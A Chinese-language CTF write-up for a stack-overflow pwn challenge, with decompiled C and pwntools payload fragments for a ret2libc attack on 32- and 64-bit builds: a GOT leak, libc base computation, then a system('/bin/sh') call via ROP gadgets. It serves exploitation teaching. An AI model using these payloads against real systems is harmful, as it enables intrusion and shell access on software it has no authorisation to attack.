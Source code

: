 # PWN 1
## 1.作业要求：
分析附件中的2个有漏洞的程序（同一个代码编译的32位版本、64位版本），获取部署了该漏洞程序的目标服务器中的flag（一个文件的内容，格式大概为：flag{...}），即为攻击成功。
附件中包含2个程序的可执行文件，以及可能需要的libc库。编写你的exploit，完成本地测试之后，去目标服务器验证。

## 2.反汇编代码
vuln32：
```
nt __cdecl main(int argc, const char **argv, const char **envp)
{
  setbuf(stdin, 0);
  setbuf(stdout, 0);
  setbuf(stderr, 0);
  write(1, wel, 0x1Eu);
  dovuln();
  return 0;
}

int dovuln()
{
  int v0; // eax
  char buf; // [esp+4h] [ebp-44h]
  char v3[51]; // [esp+5h] [ebp-43h]
  int v4; // [esp+38h] [ebp-10h]
  unsigned int v5; // [esp+3Ch] [ebp-Ch]

  v5 = __readgsdword(0x14u);
  memset(v3, 0, 0x30u);
  v4 = 0;
  while ( 1 )
  {
    if ( read(0, &buf, 1u) != 1 )
      exit(0);
    if ( buf == 10 )
      break;
    v0 = v4++;
    v3[v0] = buf;
  }
  return puts(v3);
}
```
## 3.思路：
漏洞点：char v3[51]数据读取无验证越界，导致栈溢出。
防护：  
![](https://raw.githubusercontent.com/ReAbout/ctf-writeup/master/pwn000/images/pwn3.png)<br>
奇怪的是开启canary，但是无法修改无法触发。主要就是考虑过NX。
本题提供了libc，就是使用write函数将got表中write（read）地址作为参数，调用plt表中的write函数，得到基地址后加上libc中的system函数在程序中的偏移，就得到了system函数的实际地址，进行调用即可。
### 1 [32bit]
####(1)发送payload溢出覆盖return，返回到glt表write函数，输出got表中write的地址，并返回到main函数。
也就是先调用write(1,write函数地址,4)，第一个参数文件描述符等于1表示输出，4代表输出的长度，中间的就是输出的内容，调用完成后返回主函数，得到基地址后为泄露system函数的地址做准备。
Payload:
```
num = 51 
payload = num * 'a'+'\x47'
payload += p32(elf.symbols['write'])
#payload += p32(0x80486b2)
payload += p32(elf.symbols['main'])
payload += p32(1)
payload += p32(elf.got['write'])
payload += p32(4)
```
#### (2)计算出libc中system（）和bin/sh中的地址
write_addr - system_addr == write_addr_libc - system_addr_libc
```
wirte_offset = libc.symbols['write']
system_offset = libc.symbols['system']
bin_sh_offset = next(libc.search('/bin/sh'))
libc_base = write_addr -wirte_offset
system_addr = libc_base + system_offset
bin_sh_addr = libc_base + bin_sh_offset
```
#### (3)再次发送payload溢出覆盖return，返回到system（）利用参数bin/sh，执行命令。
```
payload2 = 'a'*num + '\x47'
payload2 += p32(system_addr)
payload2 += p32(1)
payload2 += p32(bin_sh_addr)
```
__get flag__: flag{Ok_yOu_get@#$_it!}   
![](https://raw.githubusercontent.com/ReAbout/ctf-writeup/master/pwn000/images/pwn1.PNG)<br>
### [64bit]
x64思路相同，区别在于参数传递需要通过寄存器入栈。
>在x64下通常参数从左到右依次放在rdi, rsi, rdx, rcx, r8, r9，多出来的参数才会入栈.

索要就要找到通过32bit我们知道write，需要三个参数，即用到rdi、rsi、rdx三个寄存器。
利用工具[ROPgadget](https://github.com/JonathanSalwan/ROPgadget)  --binary 指定二进制文件，使用grep在输出的所有gadgets中寻找需要的片段。
![](https://raw.githubusercontent.com/ReAbout/ctf-writeup/master/pwn000/images/pwn4.png)<br>
可以看到前面两个都可以找到合适的gadget，但是 pop rdx 的却找不到，也就是write函数的第三个参数是我们不能控制的，但是在动态调试时候，在read函数处下断点可以看到，此时的rdx是为 0x200，也就是说 write 函数的标准输出的长度为0x200字节，这里只要大于8个字节（地址长度），我们都可以得到read函数的真实地址（got表中的地址）
payload：
```
pop_rdi_addr = 0x0000000000400933 #pop rdi ; ret
pop_rsi_addr = 0x0000000000400931 # pop rsi ; pop r15 ; ret
payload = num * 'a'+'\x47'
payload += p64(pop_rdi_addr)
payload += p64(1)

payload += p64(pop_rsi_addr)        
payload += p64(elf.got['write'])  #rsi      
payload += p64(0)   #r15

payload += p64(elf.plt['write'])
payload += p64(elf.symbols['main'])   
```
payload2:
```
payload2 += p64(pop_rdi_addr)
payload2 += p64(bin_sh_addr)
payload2 += p64(system_addr)
```
踩坑：
本地测试成功，服务器不成功，估计write参数问题，改用puts函数。
payload:
```
payload += p64(pop_rdi_addr)
payload += p64(elf.got['write'])
payload += p64(elf.plt['puts'])
payload += p64(elf.symbols['main']) 
```
结果调试的时候发现地址只输出6个字节，一直少两位，调试发现就是6位，用\x00\x00补齐成功。

__get flag__: flag{__you_are_so_Cu7e_!!}   
![](https://raw.githubusercontent.com/ReAbout/ctf-writeup/master/pwn000/images/pwn2.png)<br>
# EXP
[32bit Exploit](https://github.com/ReAbout/ctf-writeup/blob/master/pwn000/files/exp.py)<br>
[64bit Exploit](https://github.com/ReAbout/ctf-writeup/blob/master/pwn000/files/exp64.py)

